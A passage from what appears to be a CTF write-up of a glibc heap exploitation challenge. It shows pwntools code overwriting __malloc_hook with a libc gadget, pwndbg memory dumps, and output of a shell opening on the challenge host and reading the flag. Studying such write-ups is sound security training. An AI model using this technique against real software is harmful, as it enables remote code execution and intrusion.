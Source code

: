 ```
allocate(p, 0x60) # 5
allocate(p, 0x60) # 6

fill(p, 6, "A"*(fchunk_offset - 16)+p64(libc+rop))
```
```
pwndbg> x/8gx &__malloc_hook-6
0x7f388c9baae0 <_IO_wide_data_0+288>:	0x0000000000000000	0x0000000000000000
0x7f388c9baaf0 <_IO_wide_data_0+304>:	0x00007f388c9b9260	0x4141410000000000
0x7f388c9bab00 <__memalign_hook>:	0x4141414141414141	0x4141414141414141
0x7f388c9bab10 <__malloc_hook>:	0x00007f388c66037a	0x0000000000000000
```
Now, the next time malloc is called, a shell is popped!
```
p.recvuntil(": ")
p.sendline("1\n9447")
p.interactive()
```
```
[+] Opening connection to cysca.redobelisk.com on port 6000: Done
[*] Leaked address: 0x7feff9a07b58
[*] Libc address: 0x7feff966e000
[*] Switching to interactive mode
1. Allocate
2. Fill
3. Free
4. Dump
5. Exit
Command: Size: $ cat flag
FLAG{TRY_IT_FOR_YOURSELF_-_DON'T_COPY_AND_PASTE_FLAG}
```

### Last Note
Hit me up on slack if you want the full exploit script - @papa
